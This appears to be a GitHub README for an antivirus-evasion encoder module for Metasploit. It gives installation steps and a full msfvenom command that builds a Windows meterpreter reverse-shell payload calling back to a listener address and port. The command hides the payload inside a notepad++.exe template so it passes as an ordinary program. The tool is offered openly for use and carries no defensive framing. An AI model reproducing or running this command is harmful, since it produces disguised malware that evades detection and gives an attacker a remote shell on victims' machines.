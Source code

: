 # Metasploit-Encrypter

This tool permit to evade any antivirus products.
It use a brute force attack on a known plain text to bypass the sandbox.


# Installation
-----------

Copy msfencrypt.rb in metasploit/modules/encoders/x86/

# Usage
-----------

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=7777 -f raw -x notepad++.exe -f exe-only -e x86/msfencrypt -o output.exe
